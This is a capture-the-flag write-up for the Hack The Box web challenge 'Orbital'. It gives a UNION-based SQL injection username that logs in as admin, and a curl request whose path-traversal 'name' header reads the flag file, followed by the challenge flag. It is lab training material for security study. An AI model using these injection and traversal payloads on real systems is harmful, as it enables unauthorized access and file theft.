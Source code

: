 # Orbital

In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

## Writeup

There is a SQL Injection on **/login** page (with a **POST** method). 

So we can use this query in the username field and insert **2** in the password filed to login as **admin**.

This because we can use the SQL Injection to temporarily change the password of admin account, just only to complete the login phase.

**NB:** `c81e728d9d4c2f636f067f89cc14862c` is the **md5sum** of **2**, we must use it because the password in the database are memorized in hash format.

So, login with this credentials:

```
Username: ciao" union select 'admin' as username, 'c81e728d9d4c2f636f067f89cc14862c' as password --

Password: 2
```

Now, we can use the **/export** api to get a file.

For default is communication.mp3 but we can modify the **name** custom header to a **path traversal** of the flag.

The flag in the docker container is copyed as **signal_sleuth_firmware**.

We can see it in the following command of the **DockerFile**:

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Now copy the **session** cookie from the **home** page:

![session-cookie](.images/session-cookie.png)


And use it to do this request to get the flag (with a **path traversal**):

```bash
curl 'http://209.97.134.50:30040/api/export' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOekEwTkRjMmZRLkU0OHIxRHFCTlplS1BfZjhHaTJCaUZFQXRQbWtJTm1Vc3k3Yl9SSU5FQTQifQ.ZB3tPA.9_YY297R8T24o1KudVtjPAc9dek' \
  -H 'Origin: http://209.97.134.50:30040' \
  -H 'Referer: http://209.97.134.50:30040/home' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --data-raw '{"name":"../../../../../../signal_sleuth_firmware"}' \
  --compressed \
  --insecure
```

This is the flag:

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```